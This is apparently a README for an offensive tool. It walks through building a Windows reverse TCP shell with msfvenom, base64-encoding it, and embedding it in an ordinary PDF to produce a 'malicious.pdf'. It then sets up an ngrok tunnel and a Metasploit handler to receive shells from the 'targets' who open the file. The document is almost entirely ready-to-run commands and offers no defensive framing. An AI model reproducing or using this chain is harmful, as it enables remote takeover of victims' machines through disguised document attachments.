 ## Creating the Payload

To create the shell executable here:

```
msfvenom -p windows/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

To create the base64 encoded payload, in any command line:

```
base64 shell.exe > payload
```

## Embedding the Payload

To embed the payload in an existing clean.pdf to make a malicious.pdf, simply run:

```
python embed_payload.py
```

When prompted for an input file, enter clean.pdf, and when prompted for output malicious.pdf. By default, the file will look for a payload named payload. 

## Setting up a Listener

To use Ngrok to open up a listener:

```
ngrok tcp <Your Port to Connect On>
```

To be ready to receive TCP connections in Metasploit, first open up msfconsole, and then:

```
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
set LHOST <Your IP Address>
set LPORT <Your Port to Connect On>
set ExitOnSession false
exploit -j -z
```

## Wait For the Exploit

You'll be able to see when your machine is getting TCP connections to your targets. Each target machine accounts for 2 TCP connections, so in this example, there are 8 connections being made.

![Exploit Demo]()